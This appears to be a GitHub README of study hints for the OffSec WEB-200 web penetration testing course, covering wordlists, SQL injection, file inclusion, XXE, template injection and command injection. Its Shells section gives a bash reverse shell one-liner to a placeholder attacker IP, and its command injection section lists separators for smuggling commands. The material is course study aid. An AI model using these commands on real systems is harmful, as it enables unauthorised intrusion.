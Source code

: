 # Syllabus Related Hints
In this section I will pick a few topics out of the syllabus and give some technical hints. If you want me to give hints for other topics, create an issue. It is important to understand that my hints only make sense if you carefully read and complete the course material. All links I provide to external resources should be considered as additional literature which are no replacement for the material provided by offsec. The offsec course material is gold imho. 

## Tools
### Wordlists
Beside the standard Kali linux wordlists located under `/usr/share/wordlists` I think the seclists package is a premium set of wordlists which fits most needs. Especially it has lists connected to certain vulnerabilities like SQL-Injection, Local File Inclusion, 
Server-side Template Injection and so on which comes in handy for several topics of the web-200 course.
```bash
sudo apt-get install -y seclists
cd /usr/share/seclists/
```

### Shells
During the course and the exam you will have to identify/exploit different kind of vulnerabilities which might lead to some kind of remote code execution. Therefore it is always useful to get a reverse shell connecting to your kali machine instead of exploiting the 
vulnerability again and agin. For me in most cases the standard `bash` back connect shell worked great (under linux of course)
```bash
bash -c 'bash -i >& /dev/tcp/<KALI-IP>/9090 0>&1'
```

Sometimes it is useful to upgrade this shell to a fully interactive one

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
CTRL+Z
```bash
stty raw -echo; fg
```
Now you should have a fully interactive shell. This sometimes is needed when you do some kind of privilege escalation stuff. (not part of web-200)

## SQL-Injection
- `seclists` has awesome wordlists to manually detect SQL injection vulnerabilities using tools like `wfuzz` or `burpsuite`: `/usr/share/seclists/SQLi`
- one word regarding `SQLMap`: this tool is allowed during the exam
- however, in my experience `SQLMap` often fails even if there is an SQL-Injection
- I usually use `SQLMap` only after I identified the vulnerability manually and only use it to exfiltrate data when manual exfiltration is to expensive
- Therefore I parameterize `SQLMap` in a way it does not send useless requests to the target, because the tool is noisy as hell and (depending on the configuration) influences the integrity of the database
- When you identified an injection it is cruical that you have a good cheat sheet available, so you can exfiltrate data in a copy paste style
  - https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

## Directory Traversal and Local File Inclusion
- general test cases: https://zsahi.wordpress.com/2018/09/10/file-inclusion/
- useful wordlists to combine with `wfuzz` or `burpsuite`: `/usr/share/seclists/Fuzzing/LFI/`

## XML External Entity Attack
- often overlooked
- Know how to idenfitiy this kind of vulnerability
- every point where the application might parse XML is a potential dangerous sink where you can test for it
- get used to how to read files by exploiting an XXE attack "visibly" and blind
  - https://portswigger.net/web-security/xxe
  - https://portswigger.net/web-security/xxe/blind

## Server-side Template Injection
### identify
- often overlooked
- identifying is not always easy 
- you need to identify what kind of technology/framework is used on the target machine
- then it is a good idea to perform some basic tests to identify if templates are used at all and the website is vulnerable
- `seclists` provides a good wordlist to detect SSTIs: `/usr/share/seclists/Fuzzing/template-engines-expressions.txt`
- The following picture gives an overview what template engine might be in use if a certain test succeeded: https://portswigger.net/web-security/images/template-decision-tree.png

### exploit
- the exploitation impact ranges from XSS to RCE depending on the template engine used
- RCEs for apache freemarker, twig and pug/jade: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Command Injection
Try to think what the target application might do in the backend when using features of the website. Does the web application maybe call an external program? When you identified a potential injection point you usually have to escape from the original command and inject your own.

### Command Seperators
- `&`
- `&&`
- `|`
- `||`
- `;` (no Windows CMD)
- `0x0a` (no Windows CMD)
- `\n` (no Windows CMD)
- ``` `whoami` ``` (no Windows CMD)
- `$(whoami)` (no Windows CMD)

### Good Reads
- https://www.hackedu.com/blog/owasp-top-10-mini-series-command-injection
- https://book.hacktricks.xyz/pentesting-web/command-injection

